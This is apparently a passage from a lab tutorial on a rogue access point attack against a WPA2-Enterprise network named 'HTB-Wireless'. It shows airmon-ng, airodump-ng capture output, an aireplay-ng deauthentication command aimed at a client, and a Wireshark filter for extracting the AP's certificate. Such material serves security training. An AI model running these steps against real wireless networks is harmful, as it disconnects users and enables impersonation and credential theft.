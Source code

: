 * * *

## Performing the attack

### 1\. Scan for the Target

The first step is to identify the target access point by discovering its SSID and gathering additional details, such as its certificate information. This helps ensure the rogue AP closely mimics the legitimate one, increasing the likelihood of user connections. To start capturing WPA handshake data, once we've our interface in monitor mode, we can use `airodump-ng` with the `-w` WPA argument to save the scan output into a file with the WPA prefix. This process will create a `WPA-01.cap` file, which will automatically update with new data as the scan continues.

```shell
airmon-ng start wlan0

```

```shell
airodump-ng wlan0mon -c 1 -w WPA

 CH  1 ][ Elapsed: 36 s ][ 2024-08-23 10:19 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100      372       77    0   1   54   WPA2 CCMP   MGT  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  9A:B7:A6:32:F3:D6  -29    9 -48      0       95  PMKID  HTB-Wireless

```

```shell
aireplay-ng -0 1  -a 9C:9A:03:39:BD:7A -c 9A:B7:A6:32:F3:D6 wlan0mon

19:41:12  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]

```

Once we have captured the WPA handshake, we can use the `WPA-01.cap` file to extract important details such as the username, domain name, and handshake certificate from the captured data. To obtain the handshake certificate using `Wireshark`, we can apply the filter `(wlan.sa == 9c:9a:03:39:bd:7a) && (tls.handshake.certificate)`. This filter focuses on the AP's BSSID to isolate the relevant packet containing the certificate. The extracted certificate can provide valuable information about the access point as shown in the below screenshot.

![handshake](5B5ifLn9u7IY.jpg)

* * *
